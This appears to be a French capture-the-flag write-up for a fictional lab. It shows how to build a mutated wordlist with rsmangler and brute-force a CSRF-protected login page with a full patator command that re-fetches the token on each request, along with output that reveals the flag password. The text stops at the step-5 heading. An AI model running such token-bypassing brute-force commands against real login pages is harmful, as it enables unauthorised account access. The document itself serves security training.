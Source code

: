 ```yaml
---
title: Write-up 5
next: "/write-ups/wu6"
prev: "/write-ups/wu4"
---
```



# 🏰 Brute Force sur la page de login  - Castral-Roc

## 🎯 Objectif
Jon doit crocheter la serrure pour rentrer au conseil des lannister ! Il doit **brute-forcer la page de login** sur le sous-domaine **lannister.castral-roc.lannisport.south** pour découvrir **le mot de passe** de James Lannister.

**Flag attendu :** <ILoveCersei>

---

## ⚙️ Environnement
- **Cible :** lannister.castral-roc.lannisport.south
- **Outil utilisé :** rsmangler, patator
- **Wordlist :** custom wordlist créée par le pentester

---


## 🚀 Étape 1 : se rendre sur la page high_login et analyser le comportement du formulaire de connexion


Page de login du Conseil des Lannister :  http://lannister.castral-roc.lannisport.south/high_login.php 

## 🔍 Étape 2 :  Inspecter la page 

Inspecter la page pour trouver les champs du formulaire de connexion.
On voit que le formulaire utilise un token CSRF pour se protéger des attaques CSRF.

> 📝 **CSRF** : Cross-Site Request Forgery est une attaque qui force un utilisateur à exécuter des actions non désirées sur un site Web sur lequel il est authentifié.

Il faut donc trouver un moyen de contourner cette protection.

De plus on remarque que le formulaire de connexion contient un champ **username** et un champ **password**, la methode utilisée est **POST**.

```html
<form method="POST">
        <input type="hidden" name="csrf_token" value="zdagte....">
        <label for="username">Nom d'utilisateur :</label><br>
        <input type="text" id="username" name="username" required><br>
        <label for="password">Mot de passe :</label><br>
        <input type="password" id="password" name="password" required><br>
        <input type="submit" value="Connexion">
</form>
```

## 🚀 Étape 3 : Créer une wordlist personnalisée

1. On remarque sur la page plusieurs **indices** :

```bash	
- James
- Lannister
- Cersei
- Love
- I
```

On peut donc créer une **wordlist personnalisée**  avec ces mots.

Les ajouter a un fichier.

```bash	
nano custom_wordlist.txt
```

Coller les mots dans le fichier, sauvegarder et quiter.

```bash	
James
Lannister
Cersei
Love
I
```


2. Créer un fichier sortie_wordlist.txt avec un multitude de variations possible de ces mots : 

```bash	
rsmangler --file custom_wordlist.txt --output sortie_wordlist.txt
```

Il va donc par exemple y avoir des variations de la forme :

```bash
JamesLaNNisterCerseiLoveI
IJamesLannisterCerseiLove
CerseiLoveIJamesLannister
...
```



## 🔍 Étape 4 : Brute-force du formulaire de connexion

Comme le formulaire utilise un token CSRF, on va utiliser l'outil **patator** pour effectuer un bruteforce sur le formulaire de connexion.
En effet, patator permet de contourner la **protection CSRF** en recuperant le token avec chaque requête.
De ce fait, lorsque l'on envoie une requête, le token est récupéré et utilisé pour la requête suivante.

```bash
patator http_fuzz url="http://lannister.castral-roc.lannisport.south/high_login.php" method=POST body="username=james.lannis&password=FILE0&csrf_token=RESPONSE1" accept_cookie=1 0=sortie_wordlist.txt before_urls="http://lannister.castral-roc.lannisport.south/high_login.php" before_egrep='RESPONSE1:csrf_token" value="([a-f0-9]{32})"' resolve="lannister.castral-roc.lannisport.south:10.10.10.1"
```

Décomposons la commande :

- **http_fuzz** : module de patator pour effectuer des attaques par bruteforce sur des formulaires web
- **url** : l'url de la page de login
- **method** : la méthode HTTP utilisée pour envoyer les requêtes
- **body** : les paramètres du formulaire de connexion
- **accept_cookie** : accepter les cookies
- **0** : le fichier contenant les mots de passe à tester
- **before_urls** : l'url de la page de login
- **before_egrep** : expression régulière pour récupérer le token CSRF, le token peut avoir des valeurs de a à f et de 0 à 9 car il s'agit de valeurs hexadécimale
- **resolve** : résoudre le nom de domaine en adresse IP

Cette commande va tester tous les mots de passe de la wordlist sur le formulaire de connexion.

On aura donc cette sortie : 

```bash
18:23:37 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.11.5 at 2025-02-11 18:23 CET
18:23:37 patator    INFO -                                                                              
18:23:37 patator    INFO - code size:clen       time | candidate                          |   num | mesg
18:23:37 patator    INFO - -----------------------------------------------------------------------------

18:23:38 patator    INFO - 200  1050:-1        0.032 | LoveICersei                        |    74 | HTTP/1.1 200 OK
18:23:38 patator    INFO - 200  1054:-1        0.065 | IJamesLannister                    |    75 | HTTP/1.1 200 OK
18:23:38 patator    INFO - 302  429:-1         0.055 | ILoveCersei                        |    86 | HTTP/1.1 302 Found
```

On voit que le mot de passe **ILoveCersei** a été trouvé, car on a reçu une réponse **HTTP 302 Found**.

## 🎯 Étape 5 : Validation du Flag


